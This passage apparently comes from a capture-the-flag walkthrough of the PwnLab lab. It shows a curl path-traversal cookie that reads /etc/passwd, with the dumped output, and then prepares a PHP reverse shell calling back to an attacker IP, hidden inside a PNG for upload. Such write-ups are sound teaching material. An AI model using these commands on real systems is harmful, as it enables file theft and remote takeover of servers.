 ```console
root@kali:~$ curl --cookie 'lang=../../../../etc/passwd' 192.168.179.176
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
john:x:1000:1000:,,,:/home/john:/bin/bash
kent:x:1001:1001:,,,:/home/kent:/bin/bash
mike:x:1002:1002:,,,:/home/mike:/bin/bash
kane:x:1003:1003:,,,:/home/kane:/bin/bash
mysql:x:107:113:MySQL Server,,,:/nonexistent:/bin/false
...
```

### File Upload

We copy the pentestmonkey reverse shell to our current directory, change the IP address and port and attach the reverse shell to an image.

```console
root@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
root@kali:~$ sed -i 's/127.0.0.1/192.168.179.1/;s/1234/443/' shell.php 
root@kali:~$ cat shell.php >> tohru.png 
```

Then we upload the image.

![](/assets/images/pwnlab/screenshot-5.png)

